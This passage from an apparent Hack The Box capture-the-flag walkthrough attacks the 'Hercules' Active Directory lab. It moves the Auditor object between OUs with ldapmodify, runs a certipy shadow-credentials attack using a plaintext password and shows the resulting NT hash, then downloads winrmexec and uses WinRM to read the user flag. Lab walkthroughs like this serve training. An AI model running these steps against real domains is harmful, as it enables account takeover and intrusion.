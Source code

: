 **Create LDIF file:**
```
cat > move_auditor.ldif << 'EOF'
dn: CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
changetype: modrdn
newrdn: CN=Auditor
deleteoldrdn: 1
newsuperior: OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
EOF
```

**Execute move:**
```
export KRB5CCNAME=$(pwd)/bob.w.ccache
ldapmodify -Y GSSAPI -H ldap://dc.hercules.htb -f move_auditor.ldif
```

**Learning Point:** LDAP `modrdn` (Modify Relative Distinguished Name) is the operation for moving objects in the directory tree. The `newsuperior` parameter specifies the new parent container.

**Step 5: Shadow Credentials on Auditor**

```
# Switch back to natalie.a
export KRB5CCNAME=$(pwd)/natalie.a.ccache

# Attack auditor (now in Web Department where natalie.a has permissions)
certipy-ad shadow auto -u natalie.a@hercules.htb -p 'Prettyprincess123!' \
  -dc-ip 10.10.11.91 -target dc.hercules.htb -account auditor \
  -dc-host dc.hercules.htb

# Output:
# - auditor.pfx
# - auditor.ccache
# - NT hash: a9285c625af80519ad784729655ff325
```

**Step 6: WinRM as Auditor - Get User Flag**

```
# Download proper winrmexec
curl -L -o winrmexec.py https://raw.githubusercontent.com/ozelis/winrmexec/main/winrmexec.py

# Connect as auditor
export KRB5CCNAME=$(pwd)/auditor.ccache
python3 winrmexec.py -ssl -port 5986 -k hercules.htb/auditor@dc.hercules.htb -no-pass
```

**In PowerShell:**
```
PS C:\Users\auditor\Desktop> type user.txt
```

**Learning Point:** WinRM over HTTPS (port 5986) provides encrypted remote management. The `-k` flag enables Kerberos authentication using our cached ticket, avoiding password transmission.

---
